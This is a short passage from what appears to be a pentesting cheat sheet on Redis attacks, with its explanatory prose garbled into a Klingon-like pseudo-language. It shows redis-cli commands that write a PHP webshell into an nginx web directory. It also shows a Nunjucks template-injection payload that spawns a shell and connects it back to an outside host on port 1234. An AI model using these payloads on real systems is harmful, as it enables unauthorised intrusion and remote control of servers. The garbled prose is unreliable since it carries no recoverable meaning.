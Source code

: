 Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database
```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
​qaStaHvIS webshell access lo'laHbe', vaj backup 'ej vItlhutlh, 'ej qatlh vItlhutlh.

### Template Webshell

vaj 'ej [**ghItlh neteye-blog.com**](https://www.neteye-blog.com/2022/05/cyber-apocalypse-ctf-2022-red-island-writeup/) 'ej, 'oH 'e' vItlhutlh nunjucks template engine 'e' rev shell injected attacker.
```javascript
{{ ({}).constructor.constructor(
"var net = global.process.mainModule.require('net'),
cp = global.process.mainModule.require('child_process'),
sh = cp.spawn('sh', []);
var client = new net.Socket();
client.connect(1234, 'my-server.com', function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});"
)()}}
```
{% hint style="warning" %}